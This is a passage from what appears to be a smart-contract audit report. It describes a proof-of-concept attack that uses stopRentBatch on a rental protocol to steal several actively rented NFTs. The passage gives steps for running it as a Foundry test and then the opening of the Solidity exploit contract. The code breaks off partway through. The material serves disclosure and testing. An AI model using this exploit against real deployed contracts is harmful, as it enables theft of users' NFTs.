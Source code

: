 Steps 9 - 11 will be performed for multiple victim RentalOrders by looping over the orders and computing the necessary malicious RentalOrders. This time, instead of the attackerContract initiating a call to stopRent, a call to stopRentBatch will be initiated and an array of the malicious RentalOrders will be supplied.
The resulting state will be validated: attacker safe is now the owner of all the stolen NFTs and the victim RentalOrders can no longer be stopped (even after their expiration).
Place the following test inside of the /test/integration/ directory and run test with forge test --mc StealAllRentedNFTs_POC

The below PoC showcases how an attacker can leverage all the bugs described in this report to steal multiple actively rented NFTs via stopRentBatch.
```solidity
// SPDX-License-Identifier: BUSL-1.1
pragma solidity ^0.8.20;

import {BaseTest} from "@test/BaseTest.sol";

import {
    OrderType, 
    OrderMetadata, 
    RentalOrder,
    RentPayload,
    OrderFulfillment,
    Item,
    SettleTo,
    ItemType as reNFTItemType
} from "@src/libraries/RentalStructs.sol";

import {
    ConsiderationItem,
    OfferItem,
    OrderParameters,
    OrderComponents,
    Order,
    AdvancedOrder,
    ItemType,
    CriteriaResolver,
    Fulfillment, 
    FulfillmentComponent,
    OrderType as SeaportOrderType
} from "@seaport-types/lib/ConsiderationStructs.sol";

import {MockERC721} from "../mocks/tokens/standard/MockERC721.sol";
import {MockERC20} from "../mocks/tokens/standard/MockERC20.sol";
import {MockERC1155} from "../mocks/tokens/standard/MockERC1155.sol";
import {Seaport} from "../fixtures/external/Seaport.sol";
import {OrderParametersLib} from "@seaport-sol/SeaportSol.sol";
import {SafeL2} from "@safe-contracts/SafeL2.sol";
import {Stop} from "../fixtures/protocol/Protocol.sol";


contract AttackerContract {
    address safe;
    address seaportConduit;
    Seaport seaport;
    Order payOrder;
    Order payeeOrder;
    AdvancedOrder payAdvancedOrder;
    AdvancedOrder payeeAdvancedOrder;
    Fulfillment fulfillmentERC721;
    Fulfillment fulfillmentERC20;

    constructor (address _conduit, address _token, Seaport _seaport) public {
        seaportConduit = _conduit;
```